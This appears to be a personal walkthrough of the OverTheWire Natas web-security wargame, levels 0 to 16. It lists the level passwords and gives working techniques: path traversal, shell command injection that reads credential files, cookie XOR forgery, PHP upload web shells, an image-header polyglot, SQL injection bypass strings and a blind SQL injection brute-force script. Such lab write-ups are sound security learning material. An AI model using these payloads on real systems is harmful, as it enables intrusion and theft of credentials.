

# Natas

https://overthewire.org/wargames/natas/

## Natas 0

> Username: natas0  
Password: natas0  
URL:      http://natas0.natas.labs.overthewire.org

In this level we just need to log in using the given credentials.

## Natas 1

> The page says: "You can find the password for the next level on this page."

By checking the source code of the page, we find a comment with the password for the next level:


Password: 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq

## Natas 2

> The page says: "You can find the password for the next level on this page, but rightclicking has been blocked!"

even if the right-click is blocked, we can still view the source code of the page by opening the browser's developer tools with F12. The password is in a comment:


Password: TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI

## Natas 3

> The page says: "There is nothing on this page".

These time there are no comments in the source code, but we can see an img element:


Let's check if we have access to the files/:


We can see that there is a file called "files/users.txt" which contains the password for the next level:

Password: 3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH

## Natas 4

> The page says "There is nothing on this page" and in the source code there is a comment that says "No more information leaks!! Not even Google will find it this time...".

The hint is is the word "Google". Trying opening the page with chrome doesn't help. So let's try with one of the first things to try in web CTFs: robots.txt. Let's got to the URL http://natas3.natas.labs.overthewire.org/robots.txt:


In the s3cr3t folder there is a file called "users.txt" which contains the password for the next level: QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

## Natas 5

> The page says: "Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

The hint suggests to send the request for the page with the "Referer" header set to "http://natas5.natas.labs.overthewire.org/". We can do this in the developer tools of the browser:


Password: 0n35PkggAPm2zbEpOU802c0x0Msn1ToK 

## Natas 6

> The page says: "Access disallowed. You are not logged in"

Since we are not log in let's check the cookies of the page:


There is a cookie called "loggedin" with the value "0". Let's try to change it to "1" and refresh the page (spoiler: it works):


Password: 0RoJwHdSKWFTYR5WuiAewauSuNaBXned

## Natas 7

> The page shows a form with a text input (Input secret) and a submit button. We can also check the source code.

The code behind the form is:

```php
<?
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
        } else {
            print "Wrong secret";
        }
    }
?>
```

The secret is stored in the "includes/secret.inc" file, which we can access by going to the URL http://natas6.natas.labs.overthewire.org/includes/secret.inc:


secret: FOEIUWGHFEEUHOFUOIU

We submit this secret in the form and we get the password for the next level:


Password: bmg8SvU1LizuWjx3y7xkNERkHxGre0GS

## Natas 8

> The page shows a `Home` and an `About` buttons.

First we check the body for hints. We find a comment that says `password for webuser natas8 is in /etc/natas_webpass/natas8`.
If we click the buttons, we are taken to a new page that says `This is the X page`. Nothing crazy here.  
Let's check the url of the page: `http://natas7.natas.labs.overthewire.org/index.php?page=home`. We can see that the page is loaded with a `page` parameter, so let's try to change it to `huh` and see what happens:


Since the code looks for a file called `huh` in the `/var/www/natas/natas7` directory. Path traversal?  
The hint in the comment says that the password is in `/etc/natas_webpass/natas8`, so let's try to access it with a path traversal attack by putting the following in the `page` parameter:  
`../../../../etc/natas_webpass/natas8`:


Password: xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 

## Natas 9

> The page shows a form identical to the one in natas7, but with different source code.

The code behind the form is:

```php
<?
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

The secret is encoded with a function that first encodes the secret in base64, then reverses the string and finally encodes it in hex.
To get the secret we can use the following code:

```python
import base64

encoded = "3d3d516343746d4d6d6c315669563362"
# Hex decode
bytesFromHex = bytes.fromhex(encoded)
# Reverse string
reversedBytes = bytesFromHex[::-1]
# Base64 decode
secret = base64.b64decode(reversedBytes).decode()
print(secret)
```

And we get the secret: oubWYf2kBq

We submit this secret in the form and we get the password for the next level: ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t


## Natas 10

> The page shows this form:


Let's check the source code:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

The code uses puts our input ($key) into the `grep` command without any sanitization. This allows command injection attacks, which in this case means execute arbitrary commands on the server.  
To exploit this vulnerability, we just have to put a command between two `;` and send it as input in the form. This works because if the semicolon is not escaped, it will be interpreted as a command separator by the shell.
For example, we can try `; ls -la;`:


Now let's think, where is the password for the next level?
Natas 8 said that the password for the next level is in `/etc/natas_webpass/natas8`, so let's try to look for `/etc/natas_webpass/natas10` using `;cat /etc/natas_webpass/natas10;`:


Password: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

## Natas 11

> The page shows this form:


The code behind the form is:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

The code uses `preg_match` to check if the input contains any of the characters `;`, `|` or `&`. If it does, it prints an error message.
This means that we can't use these characters to inject commands.  
One way to go around this is to pass an empty string to the `grep` command, to make it return all the lines in the output files. Then we can add the file we want to look in by just adding a space and the file name.  
For example, we can try `"" /etc/natas_webpass/natas11` as input:


Password: UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk

## Natas 12

> The page shows this form:
> 

The code behind the form is:

```php
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
            $mydata['showpassword'] = $tempdata['showpassword'];
            $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);
```

The code uses a cookie called `data` to store the data of the form. The data is "encrypted" with XOR encryption using a key that is not shown in the code.
The `loadData` function loads the data from the cookie and decodes it, while the `saveData` function saves the data to the cookie after encoding it.
The "xor_encrypt" function is used to encrypt the data before saving it to the cookie. It uses a key that is not shown in the code, but it is used to XOR each character of the input string with the corresponding character of the key.
The `bgcolor` parameter is validated with a regular expression to ensure it is a valid hex color code.  
The `showpassword` parameter is not used in the code, but it is set to "no" by default.  
To get the password for the next level, we need to set the `showpassword` parameter to "yes" and then save the data to the cookie.  
To do this, we need the secret key used for the XOR encryption.
To find the key, we can try to brute force it by trying all possible combinations of characters. However, a better approach is to XOR the known plaintext (default data) with the ciphertext (decoded cookie) to find the key.

The known plaintext is:
```json
{"showpassword":"no","bgcolor":"#ffffff"}
```

The ciphertext is the value of the `data` cookie, which we can get by inspecting the cookies in the browser.

Cookie value: `HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg=`

The following code can be used to recover the key:

```python
import base64
encoded = "HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg="
ciphertext = base64.b64decode(encoded)
plaintext = b'{"showpassword":"no","bgcolor":"#ffffff"}'
recovered = bytes([ciphertext[i] ^ plaintext[i] for i in range(len(plaintext))])
print(recovered)
```

I get `eDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoe`, so the key is `eDWo`.

Let's check that the key is correct by encrypting the default data with it:

```python
import base64

def xor_encrypt(inpt, key):
    return bytes([inpt[i] ^ key[i % len(key)] for i in range(len(inpt))])

key = b'eDWo'
data = b'{"showpassword":"no","bgcolor":"#ffffff"}'
encrypted = xor_encrypt(data, key)
print(base64.b64encode(encrypted))
```

The key is correct, as it returns the same value as the cookie value.
Now let's craft our own cookie with the `showpassword` parameter set to "yes":

```python
import base64

def xor_encrypt(inpt, key):
    return bytes([inpt[i] ^ key[i % len(key)] for i in range(len(inpt))])

key = b'eDWo'
data = b'{"showpassword":"yes","bgcolor":"#ffffff"}'
encrypted = xor_encrypt(data, key)
print(base64.b64encode(encrypted))
```

This returns `HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5`. We put this value in the `data` cookie and refresh the page:


Password: yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB

## Natas 13

> The page shows this form:
> 

The code behind the form is:

```php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


    if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
}
```

genRandomString():
- Generates a random string of 10 lowercase letters and digits.
- Used to create unpredictable filenames for uploads.

makeRandomPath($dir, $ext):
- Calls genRandomString() to get a random filename.
- Appends the given extension ($ext).
- Checks if a file with that name already exists in $dir.
- If it does, repeats until a unique filename is found.
- Returns the full path for the new file.

makeRandomPathFromFilename($dir, $fn):
- Extracts the file extension from the original filename ($fn).
- Calls makeRandomPath() to generate a unique path in $dir with the same extension.

File upload logic:
- Checks if the POST request contains a filename field.
- Calls makeRandomPathFromFilename() to get a unique upload path in the upload directory.
- Checks if the uploaded file (from $_FILES['uploadedfile']) is larger than 1000 bytes.
- Otherwise, tries to move the uploaded file to the generated path.

If we try to upload a file with any extension, the extension will be changed to `.jpg`. If we manage to upload a file with a `.php` extension, it will be executed by the server.  
Let's check the request's payload sent to the server when we upload a file:


As we can see we have control over the final filename. Now let's create a php script to read the password in the `/etc/natas_webpass/natas13` file and print it. We can name the file `read13Pass.php`:

```php
<?php
$output=null;
$retval=null;
exec('cat /etc/natas_webpass/natas13', $output, $retval);
print_r($output);
?>
```

Now we can upload this file to the server. We can intercept and then edit the request with burp suite or any other proxy tool. In this case I'll just use the `Edit and Resend` feature of the browser's developer tools to edit the file name's extension to `.php`.


Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

## Natas 14

> The page shows this form:
> 

The source code now implements some kind of check on the extention of the uploaded file:

```php
if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
    echo "File is not an image";
}
```

If we look at how `exif_imagetype` works, we can see that it reads the first bytes of the image file to determine its type based on its signature (not the file extension). This means we can bypass the extension check by uploading a file with a valid image signature, even if the file itself is not a valid image (a script for example).

To do this, we can craft a valid JPEG file and then append our PHP code to it:

```bash
echo -n -e "\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01\x01\x01\x00\x60\x00\x60\x00\x00" > image.jpg
cat read14pass.php >> image.jpg
mv image.jpg read14passImage.php
```

Where `read14pass.php` is the same code we used in the previous level, with the only difference being that we print the password for natas14.  
Now we can upload the file and do the same interception and edit trick as before.


Password: z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

## Natas 15

> The page shows this form:
> 
> The source code is:

```php
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<?php } ?>
```

The code connects to the MySQL database and checks if the provided username and password match any user in the `users` table.
If the query returns any rows, it means the login is successful and the password for natas15 is printed.  
The query is constructed using the provided username and password without any sanitization, which makes it vulnerable to SQL injection attacks.  
To exploit this vulnerability, we can use a SQL injection attack to bypass the authentication mechanism and retrieve the password for natas15.

To do this, we can use the following payload for the username and password fields:

```
Username: " OR "1"="1
Password: " OR "1"="1
```

This payload will make the query always return true.


Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

## Natas 16

> The page shows this form:
> 
> The source code is:

```php
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
```

The code connects to the MySQL database and checks if the provided username exists in the `users` table.
If the query returns any rows, it means the user exists and a message is printed.  
$_GET is used to check if the `debug` parameter is set, in which case it prints the executed query. To use it we can add `?debug=1` to the URL.



The query is constructed using the provided username without any sanitization, which makes it vulnerable to SQL injection attacks.  
Since we only get "This user exists." or "This user doesn't exist." messages, to find the password we can make the query check if the password starts with a specific character and extract the password character by character.
To do this, we can use the following payload for the username field:

```
Username: natas16" AND SUBSTRING(password,1,1) = "a" --
```

This payload will make the query check if the password starts with the letter "a". If it does, we will get the message "This user exists.", otherwise we will get "This user doesn't exist.".  
Now we have to automate the process of checking each character of the password. We can use a script to do this:

```python
import requests
import string

URL = "http://natas15.natas.labs.overthewire.org/index.php?debug=1"
auth = ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx")
known = ""
found = True
charSet = string.digits + string.ascii_letters

for i in range(1, 65):
    if not found:
        break
    for c in charSet:
        payload = f'natas16" AND BINARY SUBSTRING(password,{i},1) = "{c}" -- '
        payload = {"username": payload}
        r = requests.post(url = URL, auth=auth, data = payload)
        if "This user exists" in r.text:
            found = True
            known += c
            print(known)
            break
        else:
            found = False
```

This script will try each character in the character set for each position in the password until it finds the correct character. `BINARY` is used to make the comparison case-sensitive, which is important since the password is case-sensitive.


Password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
